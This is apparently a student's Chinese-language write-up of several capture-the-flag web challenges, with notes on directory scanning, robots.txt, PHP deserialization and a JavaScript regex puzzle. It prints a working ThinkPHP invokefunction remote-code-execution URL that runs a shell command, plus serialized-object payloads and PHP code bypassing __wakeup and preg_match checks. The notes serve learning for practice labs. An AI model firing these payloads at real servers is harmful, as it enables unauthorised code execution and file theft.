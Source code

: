 #baby_web
题目一开始提示找初始网页，就想到了index.php，但是发现没有动静。Dirsearch扫目录发现index.php也被指向了1.php，感觉不知道应该怎么下手。看了writeup是burp抓跳转至index.php时的包，再查看response得到flag。

#Training-www-robots
既然提到了robots，那就扫一下目录，发现robots.txt可以访问。访问robots.txt,内有fl0g.php,再访问得到flag。

#php_rce
看标题感觉和php有关，一打开链接就看见超大的thinkphp，于是就查了一下thinkphp有getshell漏洞，想了半天不会构造payload，贴个大佬的payload:http://111.198.29.45:45747/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cat%20/flag 得到flag

#unserialize3
组长以前发过反序列化和魔术方法的资料，这次结合题目能解决一部分疑惑。  
知识点：  
1、serialize()函数：用于序列化对象或数组，并返回一个字符串。序列化对象后，可以很方便的将它传递给其他需要它的地方，且其类型和结构不会改变。  
2、unserialize()函数：用于将通过serialize()函数序列化后的对象或数组进行反序列化，并返回原始的对象结构。  
3、serialize()和unserialize()函数对魔术方法的处理：serialize()函数会检查类中是否存在一个魔术方法__sleep()。如果存在，该方法会先被调用，然后才执行序列化操作，此功能可以用于清理对象。  
unserialize()函数会检查类中是否存在一个魔术方法__wakeup()，如果存在，则会先调用 __wakeup 方法，预先准备对象需要的资源。
4、__wakeup()执行漏洞：一个字符串或对象被序列化后，如果其属性被修改，则不会执行__wakeup()函数，这也是一个绕过点。  
正常序列化后得到结果：O:4:"xctf":1:{s:4:"flag";s:3:"111";}  
大括号前面的1便是属性变量的个数，只需对其进行更改便可以绕过__wakeup()，使exit函数不被执行。  
传参?code=O:4:"xctf":2:{s:4:"flag";s:3:"111";}

#Web_php_unserialize
题目中先base64解码，再判断是否绕过了preg_match（）和_wakeup（），所以先对序列化的内容进行修改，再对修改过的内容进行base64加密。可惜的是思路是跟得上，代码能力跟不上，而且php试错好麻烦啊。  
这里是大佬的代码：$A = new Demo('fl4g.php');//新建类  
    $C = serialize($A);//对A进行序列化  
    //string(49) "O:4:"Demo":1:{s:10:"Demofile";s:8:"fl4g.php";}"  
$C = str_replace('O:4', 'O:+4',$C);//绕过preg_match，跳过正则匹配  
    $C = str_replace(':1:', ':2:',$C);//绕过wakeup，写入变量数大于实际变量数  
    var_dump($C);  
    //string(49) "O:+4:"Demo":2:{s:10:"Demofile";s:8:"fl4g.php";}"  
    var_dump(base64_encode($C));  
    //string(68) "TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ=="  
?>  
一定要好好学语言（flag）

#NaNNaNNaNNaN…, Batman!
拿到没有后缀的文件加上txt，看到了一顿乱码和eval就想试试菜刀，发现完全不对劲。再仔细看看txt之后，发现有正则表达式的影子，^匹配开头 $匹配结尾，这道题就差不多就能蒙出来。
之后查看Write up，得知用alert（_）可弹出_函数的内容进行代码审计 解题更严谨。
